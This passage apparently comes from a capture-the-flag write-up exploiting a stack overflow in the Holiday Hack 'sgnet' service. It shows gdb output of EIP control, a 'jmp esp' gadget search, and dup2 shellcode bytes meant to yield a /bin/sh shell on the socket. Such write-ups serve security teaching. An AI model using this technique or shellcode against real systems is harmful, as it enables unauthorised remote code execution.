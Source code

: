 and then we reach the "ret"

{% highlight bash %}
=> 0x80498ae <sgstatd+95>:	ret 
{% endhighlight %}

Looking at our payload string we can see that the value popped into ret for EIP is in our control and will start out as "d7Ad"

{% highlight bash %}
=> 0x80498ae <sgstatd+95>:	ret    
[SNIP]
[------------------------------------stack-------------------------------------]
0000| 0xbfffef0c ("d7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag\230\300\004\b\023")

{% endhighlight %}

and there is our magical seg fault

{% highlight bash %}
Program received signal SIGALRM, Alarm clock.
EIP: 0x64413764 ('d7Ad')
0x64413764 in ?? ()
{% endhighlight %}

Let's start thinking about our exploit.

We will need to 

- get a shell to read the files we want
- reuse the random socket that is created on fork()

We can accomplish both with a /bin/sh and dup2() payload. 

Let's start by finding a gadget for 'jmp esp' so we can execute shellcode on the stack

{% highlight bash %}
holidayHack/sgnet  ~ objdump -d sgnet | grep 'ff e4'  
 8049855:	c7 45 fc e4 ff ff e4 	movl   $0xe4ffffe4,-0x4(%ebp)
 804989c:	81 f2 e4 ff ff e4    	xor    $0xe4ffffe4,%edx
{% endhighlight %}

Since Intel uses variable length instructions we can use the "ff e4" at the end of either of those as our gadget. I choice to use "804985a". 

Once I had that in place, I set a few breakpoints in gdb to catch the jmp address so I could locate the stack location of our random socket number. I had determined the random socket number was at offset [esp-0xc0].

 Now I needed a shellcode for dup2(). 

Searching around a bit I determined the shellcode used by [Stalker](http://blog.stalkr.net/2011/04/pctf-2011-22-hashcalc1.html) to solve a CTF challenge in 2011 would work. 

{% highlight bash %}
$ echo -ne '\x31\xc9\x31\xdb\xb3\x05\x6a\x3f\x58\xcd\x80\x41\x80\xf9\x03\x75\xf5' |ndisasm -u -                                                                                                                
00000000  31C9              xor ecx,ecx     # ecx (new fd) => 0
00000002  31DB              xor ebx,ebx     # ebx (old fd) => 0
00000004  B305              mov bl,0x5      # ebx = 5, our socket fd
00000006  6A3F              push byte +0x3f
00000008  58                pop eax         # eax (syscall number) = sys_dup2
00000009  CD80              int 0x80        # syscall! dup2(5,ecx)
0000000B  41                inc ecx         # increment new fd so
0000000C  80F903            cmp cl,0x3       # we do this
0000000F  75F5              jnz 0x6         # for fd 0/1/2
{% endhighlight %}

